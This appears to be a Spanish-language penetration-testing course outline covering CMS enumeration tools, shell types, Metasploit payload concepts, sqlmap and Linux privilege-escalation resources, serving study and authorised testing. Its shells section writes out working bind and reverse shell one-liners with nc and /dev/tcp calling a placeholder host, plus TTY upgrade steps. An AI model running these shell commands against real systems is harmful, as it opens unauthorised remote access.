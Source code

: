 ### Enumeración de gestores de contenido (CMS) – WordPress (2/2)

### Enumeración de gestores de contenido (CMS) – Joomla
 - Recursos: https://github.com/OWASP/joomscan

### Enumeración de gestores de contenido (CMS) - Drupal
 - Recursos: https://github.com/SamJoan/droopescan

### Enumeración de gestores de contenido (CMS) – Magento
 - Recursos: https://github.com/SamJoan/droopescan

### Toma de apuntes con Obsidian
 - Recursos: https://obsidian.md/download


Conceptos básicos de enumeración y explotación
==============================================

### Introducción a la explotación de vulnerabilidades

### Reverse Shells, Bind Shells y Forward Shells
 - Recursos: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
 - forward shell: mkfifo input; tail -f input | /bin/sh 2>&1 > output
 - bind shell: nc -nlvp 4646 -e /bin/bash
 - reverse shell: nc -e /bin/bash {ip} 443
 - bash -c "bash -i >& /dev/tcp/{ip}/443 0>&1"
 - nc -nlvp 443
 - script /dev/null -c bash (ctrl+z)
 - stty raw echo; fg
 - reset xterm
 - export TERM=xterm
 - SHELL=bash
 - stty rows 44 columns 184

### Tipos de payloads (Staged y Non-Staged)
 - Conceptos: payloads Staged, payloads Non-Staged
 - Comandos: msfvenom, msfdb, rlwrap

### Tipos de explotación (Manuales y Automatizadas)
 - Comandos: sqlmap
 - Recursos:
   - https://hashes.com/es/decrypt/hash
   - https://en.wikipedia.org/wiki/Rainbow_table


### Enumeración del sistema
 - Comandos: setcap, systemctl list-timers
 - Conceptos: root, nt authority system
 - Recursos:
   - https://github.com/diego-treitos/linux-smart-enumeration
   - https://github.com/rebootuser/LinEnum
   - https://github.com/DominicBreuker/pspy
   - https://gtfobins.github.io/
   - https://book.hacktricks.xyz/welcome/readme
